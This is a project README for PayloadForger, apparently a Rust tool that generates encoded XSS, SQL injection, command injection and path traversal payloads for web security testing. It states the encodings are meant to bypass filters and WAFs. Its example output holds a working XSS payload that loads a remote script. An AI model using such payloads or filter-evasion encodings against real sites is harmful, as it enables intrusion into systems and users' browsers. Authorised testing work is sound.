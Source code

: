 # PayloadForger

PayloadForger is a tool designed to generate custom payloads for web application security testing. It supports various attack types including XSS, SQL Injection, Command Injection, and Path Traversal. The tool generates payloads based on user input and provides encoded versions in hexadecimal and Base64 formats to help bypass security filters and WAFs.

## Features

Generate payloads for XSS, SQL Injection, Command Injection, and Path Traversal.

Encode payloads in hexadecimal and Base64.

Support for custom payloads with path traversal for more advanced testing.

## Directory Structure

The project has the following directory structure:


project-root/
├── src/
│   ├── attack_types.rs
│   ├── main.rs
│   └── payload.rs
├── payloads/
│   ├── xss.txt
│   ├── sqlinjection.txt
│   ├── commandinjection.txt
│   └── custom.txt
├── Cargo.toml
└── target/

## Requirements

Rust (1.56 or later)
Cargo (Rust package manager)

## Installation

Clone the repository:



git clone https://github.com/CypherHippie/PayloadForger.git
cd payload-forge

## Build the project:



cargo build --reléase

## Run the application:



cargo run --release <payload_type> <attack_type> <number_of_payloads>


<payload_type>: raw

<attack_type>: xss, sqlinjection, commandinjection, pathtraversal

[custom_payload] (optional): Custom payload path for path traversal

<number_of_payloads>: The number of payloads you want to generate.

## Usage

To generate a payload, run the application with the desired parameters:

### XSS Payload:


cargo run -- raw xss {number}

### SQL Injection Payload:


cargo run -- raw sqlinjection {number}

### Command Injection Payload:


cargo run -- raw commandinjection {number}


### Path Traversal Payload with Custom Payload:


cargo run -- raw pathtraversal {number}

### Example Output


Raw: %3Ciframe src='javascript:alert("&lt;SCRIPT a=\"&gt;'&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;")'%3E%3C/iframe%3E
Hex: <encoded_hex_value>
Base64: <encoded_base64_value>

### Viewing Generated Payloads

Generated payloads are saved in archives/generated_payloads.txt. You can review this file to see the crafted payloads.

## Contributing

Contributions are welcome! If you find a bug or have a feature request, please open an issue or submit a pull request.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

The tool leverages the Rust programming language and its ecosystem for robust and efficient payload generation.

Thanks to the community for their support and contributions.